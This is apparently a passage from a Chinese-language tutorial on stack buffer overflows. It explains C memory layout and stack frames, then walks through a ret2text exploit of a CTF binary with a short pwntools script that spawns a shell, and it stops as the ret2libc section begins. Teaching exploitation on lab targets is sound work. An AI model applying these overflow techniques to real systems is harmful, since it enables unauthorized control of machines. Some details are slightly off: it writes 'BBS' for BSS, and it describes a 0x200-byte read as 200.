


# 内存模型

对于一个典型的 C 语言程序，其内存布局如下图所示：



- 代码段存储可执行代码
- 数据段存储由程序员初始化过的全局变量和静态变量
- BBS 段存储未初始化的全局变量和静态变量
- 堆用于动态内存分配
- 栈用于存储局部变量和函数调用相关数据

当一个函数被调用时，系统会在栈顶（也就是地址更低的地方）为它分配一块空间，被称为栈帧（Stack Frame）。

- 参数区域用于保存传递给函数的参数
- 调用函数前，计算机将下一条指令的地址存储在返回地址区域
- 前帧指针区域存储着上一个帧的指针
- 局部变量区域存储着该函数的局部变量

很显然的是，函数中局部变量的地址无法在编译时就确定下来，访问局部变量必须依靠相对地址偏移来查找。相对地址的基址就存储在 CPU 的帧指针寄存器（ebp）中。

然而，CPU 只有一个帧指针寄存器。当函数返回时，上一个函数存储在寄存器中的帧指针已经被覆盖了。因此，栈中还存储了前帧指针，用来在函数返回时设置帧指针寄存器。

栈是由高地址向低地址生长的，但局部变量（缓冲区）中的数据则是由低地址向高地址生长。如果局部变量中的数据内容超出了原先分配的大小，则会继续向高地址生长，覆盖前帧指针、返回地址……

# ret2text

一个自然的攻击想法是：我们可以用恶意函数覆盖上一个函数的栈帧、用恶意的返回地址覆盖原来的返回地址，使得函数返回到恶意函数处。如图所示：



这便是ret2shellcode 攻击。

但现在讨论这个还为时过早，我们首先考虑更简单的 ret2text 情况：

如果程序中存在函数语句

```c
system("/bin/sh");
```

如何通过溢出的方式返回到这个函数呢？以攻防世界 level0 为例。把程序扔进 ida 后可以看到：

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

显然，这段代码的 `read` 函数可以向大小为 128 的 buf 中填入 200 的数据，因此存在上述的漏洞。同时，我们还在 `0x0000000000400596` 处看到

```c
int callsystem()
{
  return system("/bin/sh");
}
```

尽管这个函数并没有在 main 函数中被调用，但我们依然可以通过覆盖返回值来运行这个函数。根据前文提到的原理：

- 我们首先需要写 `0x80` 字节的随机数据填满 buf
- 然后用 `0x8` 字节的随机数据填满前帧指针的位置
- 最后用 `callsystem` 函数的地址 `0x0000000000400596` 覆盖原先的返回地址

那就可以直接写 POC 了：

```py
from pwn import *
							
p = process('./pwn')

offset = 0x80 + 0x8
target = 0x400596
payload = offset * b'a' + p64(target)

p.sendline(payload)
p.interactive()
```

这里需要注意的是，这里的程序是 64 位的。对于 32 位的程序，前帧指针占用的空间为 `0x4`，且你应当把上面程序的 `p64` 函数修改为 `p32`。

# ret2libc

但不是每个程序都会傻傻地放一个 `system("/bin/sh")` 在那里等你调用。接下来，我们考虑稍微复杂一点的情况：程序中有 `system()` 函数、有 `/bin/sh` 这个字符串，我们如何操作呢？

